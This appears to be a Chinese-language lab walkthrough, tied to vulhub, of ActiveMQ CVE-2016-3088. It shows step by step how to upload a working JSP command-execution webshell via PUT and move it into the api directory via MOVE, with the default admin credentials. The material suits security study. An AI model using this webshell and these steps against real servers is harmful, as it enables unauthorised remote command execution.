




# ActiveMQ任意文件写入漏洞(CVE-2016-3088)

 [vulhub/README.zh-cn.md at master · vulhub/vulhub (github.com)](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2016-3088/README.zh-cn.md)

#### 漏洞描述 

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录.

#### 漏洞影响版本

​    Apache ActiveMQ 漏洞威胁版本范围: 5.0.0 ~ 5.13.2

#### 漏洞利用原理

> api可以运行jsp文件,fileserver接口可以让用户自定义构造文件通过PUT上传,以及MOVE进行移动,但是fileserver不对jsp文件进行解析. 

由此攻击者可以构造webshell到目标路径下/xx/fileserver/webshell.jsp,之后通过构造MOVE命令将webshell移动到api目录下即可执行.(api相对路径为/xx/webapps/api)

#### 漏洞利用过程

利用此漏洞需要登陆admin api两个应用,所以实现起来条件较为苛刻.

先登录`http://your-ip:8161/admin/test/systemProperties.jsp` 用户名密码均为admin admin

可以看到绝对路径为/opt/activemq, 以此得到/opt/activemq/fileserver/ 以及 /opt/activemq/webapps/api/, 直接访问`http://your-ip:8161/fileserver`,用burpsuite构造PUT,下边放上webshell上传

~~~jsp
<%@ page import="java.io.*"%>
<%
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
  out.print(line+" ");
 }
%>
~~~

之后访问`http://your-ip:8161/fileserver/descript.jsp`

发现已经上传成功但并未被解析,再次用MOVE将该文件移动到api目录下

之后访问`http://your-ip/api/descript.jsp?cmd=ls`可以看到webshell已经被执行

vulhub文档里写的还有crontab定时反弹shell,少了登录api的一步,条件更宽裕了一点.

